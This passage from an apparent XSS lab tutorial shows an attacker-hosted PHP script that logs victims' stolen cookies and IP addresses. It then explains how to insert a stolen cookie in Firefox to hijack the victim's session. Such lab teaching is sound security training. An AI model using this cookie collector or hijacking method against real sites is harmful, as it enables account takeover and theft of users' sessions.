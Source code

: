We can save the following PHP script as `index.php`, and re-run the PHP server again:
```php
<?php
if (isset($_GET['c'])) {
    $list = explode(";", $_GET['c']);
    foreach ($list as $key => $value) {
        $cookie = urldecode($value);
        $file = fopen("cookies.txt", "a+");
        fputs($file, "Victim IP: {$_SERVER['REMOTE_ADDR']} | Cookie: {$cookie}\n");
        fclose($file);
    }
}
?>
```

Now, we wait for the victim to visit the vulnerable page and view our XSS payload.

We get the cookie value right in the terminal, and since we prepared a PHP script, we also get the `cookies.txt` file with a clean log of cookies.

We can use this cookie on the `login.php` page to access the victim's account. To do so, once we navigate to `/hijacking/login.php`, we can click `Shift+F9` in Firefox to reveal the `Storage` bar in the Developer Tools. Then, we can click on the `+` button on the top right corner and add our cookie, where the `Name` is the part before = and the `Value` is the part after = from our stolen cookie:
![Storage tab showing cookie details: Name 'cookie', Value 'f904f93c949d19d870911bf8b05fe7b2', Path '/hijacking', Size 38.](https://academy.hackthebox.com/storage/modules/103/xss_blind_set_cookie_2.jpg)

Refresh the page and we get access.